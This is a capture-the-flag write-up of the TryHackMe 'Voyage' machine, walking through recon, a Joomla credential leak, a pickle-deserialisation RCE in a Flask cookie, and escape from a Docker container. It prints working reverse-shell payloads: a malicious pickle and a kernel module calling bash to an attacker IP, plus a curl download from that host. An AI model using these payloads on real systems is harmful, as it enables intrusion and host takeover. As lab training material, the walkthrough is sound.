


# Voyage TryHackMe Write-up (Docker Escape & Pickle RCE)

---

# **Recon**

The target machine was identified and scanned with a full port sweep to ensure nothing was missed.

```bash
➜ nmap -sV -sC -Pn -T4 -p- --min-rate 2000 10.201.28.136
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-30 02:24 UTC
Nmap scan report for 10.201.28.136
Host is up (0.23s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Home
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Key findings:**

- Port **80** → Joomla CMS running on Apache.  
- Port **22** → OpenSSH 9.6  
- Port **2222** → OpenSSH 8.2 (potentially a container).  

---

### Vulnerability scan

```bash
➜ nmap -sV -T4 --script vuln 10.201.28.136
```

This confirmed Joomla version:  
  
`Joomla version 4.2.7`

---

### Robots.txt

Inspection of `/robots.txt` revealed restricted Joomla-related directories:  


---

# **Exploit**

The identified Joomla version is vulnerable to **CVE-2023-23752**, an information disclosure flaw.  

Reference: [https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)

```bash
…exploit-CVE-2023-23752 on 🌿 master 
➜ ruby exploit.rb http://10.201.28.136
Users
[377] root (root) - mail@tourism.thm - Super Users

Site info
Site name: Tourism
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: root
DB password: [REDACTED]
DB name: joomla_db
DB prefix: ecsjh_
```


Credentials recovered:

- **DB User:** `root`  
- **DB Password:** `[REDACTED]`

---

# Initial Access

Using the leaked credentials, login was attempted over SSH:

```bash
ssh root@tourism.thm -p 2222
```


Access succeeded, but the shell was inside a **Docker container**, not the actual host.

> _Sometimes in a pentest, you get root access very quickly. But is it the real root or just a container? The voyage might still be going on._

---

# Container Enumeration

Inside the container, reconnaissance began.

`.bash_history` gave useful hints:

```bash
root@f5eb774507f2:~# cat .bash_history 
ls
curl
nmap
socat
exit
```

This revealed available tools (`curl`, `nmap`, `socat`) that could help in internal discovery or tunneling.

---

## Internal scan

```bash
root@f5eb774507f2:~# nmap -sV -T4 -p- 10.201.41.151
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.58 ((Ubuntu))
2222/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
5000/tcp open  tcpwrapped
```

Here, port **5000** stood out; not visible externally but accessible internally.

---

# Secret Finance Panel Discovery

### Initial attempt

A naive tunnel was created:

```bash
ssh -L 1234:127.0.0.1:5000 root@tourism.thm -p 2222
```

But this returned _connection refused_, meaning nothing was bound to `127.0.0.1:5000` inside the container.

---

### Probing

Tests against different IPs inside the container:

- `curl http://127.0.0.1:5000` → refused  
- `curl http://10.201.41.151:5000` → connection reset  
- `curl http://192.168.100.10:5000` → refused  

A sweep across the Docker subnet was run:

```bash
nmap -p5000 192.168.100.0/24 --open
```

This revealed **192.168.100.12:5000** open.

---

### Verification

```bash
curl http://192.168.100.12:5000
```

Returned a `200 OK` page for the **Tourism Secret Finance Panel**, running Flask/Werkzeug.

---

### Correct tunnel

```bash
ssh -Nf -L 1234:192.168.100.12:5000 root@tourism.thm -p 2222
```

This exposed the panel locally at:  


Using the Joomla DB credentials, access was granted:  


---

At this stage, the attack surface shifted to the **finance panel** and its Flask session handling.

---

# Cookie Session Data

On logging in, a cookie named `session_data` was issued.  


Its value was hex-encoded:

```
80049525000000000000007d94288c0475736572948c04726f6f74948c07726576656e7565948c05383530303094752e
```

Decoded with Python’s pickle:

```python
import pickle
b = bytes.fromhex("80049525000000000000007d94288c0475736572948c04726f6f74948c07726576656e7565948c05383530303094752e")
print(pickle.loads(b))
```

Output:

```
{'user': 'root', 'revenue': '85000'}
```

This confirmed **insecure pickle deserialization** — exploitable for code execution.

---

# Exploiting Insecure Pickle

### Proof of Concept

A malicious object with `__reduce__` triggering `os.system()` was serialized into a pickle and hex-encoded.

- Test: replaced `user` with an object that ran `id` or `curl`.  
- The server executed the payload and responded, proving code execution.

---

### Weaponization

A reverse shell payload was crafted:

```python
import pickle, binascii, os  
class RCE:
    def __reduce__(self):
        cmd = 'bash -c "bash -i >& /dev/tcp/10.4.122.220/4444 0>&1"'
        return (os.system, (cmd,))

data = {"user": RCE(), "revenue": "85000"}
payload = pickle.dumps(data, protocol=4)
print(binascii.hexlify(payload).decode())
```

Set as the `session_data` cookie:

```bash
HEX=$(python3 make_shell.py)
curl -v http://localhost:1234/ -H "Cookie: session_data=${HEX}"
```

Result: reverse shell received from the finance panel backend.  

---

## User.txt  


---

# Escaping to get to HOST OS

Since LinPEAS didn’t return much of value for container vulnerabilities, it required a specialized container enumeration tool such as `deepce`.

[https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce)

---

### Download on host

```bash
➜ git clone https://github.com/stealthcopter/deepce.git
...
```

---

### Send to container over SSH

Also important to improve and stabilize the shell first:

```bash
export TERM=xterm
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

### Transfer and run deepce

```bash
curl http://10.4.122.220:8000/deepce.sh -o deepce.sh
chmod +x deepce.sh
./deepce.sh
```

---

From running, the most vital piece of information was the `CAP_SYS_MODULE` under the **Dangerous Capabilities** section:



---

### Why this matters

- Containers normally **cannot** load kernel modules
- With `CAP_SYS_MODULE`, the container can insert its own `.ko` module
- This means code runs in the host kernel context → effectively giving host root

---

### Kernel module source (rev.c)

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kmod.h>

MODULE_LICENSE("GPL");

static int launch_shell(void) {
    char *argv[] = {
        "/bin/bash",
        "-c",
        "bash -i >& /dev/tcp/10.4.122.220/1337 0>&1",
        NULL
    };

    static char *envp[] = {
        "HOME=/",
        "TERM=linux",
        "PATH=/sbin:/bin:/usr/sbin:/usr/bin",
        NULL
    };

    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
}

static int __init mod_init(void) {
    return launch_shell();
}

static void __exit mod_exit(void) { }

module_init(mod_init);
module_exit(mod_exit);
```

---

### Build environment

Prepare a working directory:

```bash
root@d221f7bc7bf8:/tmp# mkdir -p /tmp/exp
root@d221f7bc7bf8:/tmp# mv /tmp/rev.c /tmp/makefile /tmp/exp
root@d221f7bc7bf8:/tmp# cd /tmp/exp
root@d221f7bc7bf8:/tmp/exp# mv makefile Makefile
```

Confirm kernel headers:

```bash
root@d221f7bc7bf8:/tmp/exp# ls -l /lib/modules/6.8.0-1030-aws/build
lrwxrwxrwx 1 root root 37 May 30 16:04 /lib/modules/6.8.0-1030-aws/build -> /usr/src/linux-headers-6.8.0-1030-aws
```

---

### Compile the module

```bash
root@d221f7bc7bf8:/tmp/exp# make KVER=6.8.0-1030-aws
make -C /lib/modules/6.8.0-1030-aws/build M=/tmp/exp modules
make[1]: Entering directory '/usr/src/linux-headers-6.8.0-1030-aws'
warning: the compiler differs from the one used to build the kernel
  The kernel was built by: x86_64-linux-gnu-gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  You are using:           gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  CC [M]  /tmp/exp/rev.o
  MODPOST /tmp/exp/Module.symvers
  CC [M]  /tmp/exp/rev.mod.o
  LD [M]  /tmp/exp/rev.ko
  BTF [M] /tmp/exp/rev.ko
Skipping BTF generation for /tmp/exp/rev.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-6.8.0-1030-aws'
```

At this point `rev.ko` is compiled.

---

### Load the module

```bash
root@d221f7bc7bf8:/tmp/exp# insmod rev.ko
```

This triggers the payload embedded in the module. Since it was configured to launch a reverse shell, the connection spawns back to the attacker machine as root on the host OS.

---

# Root.txt


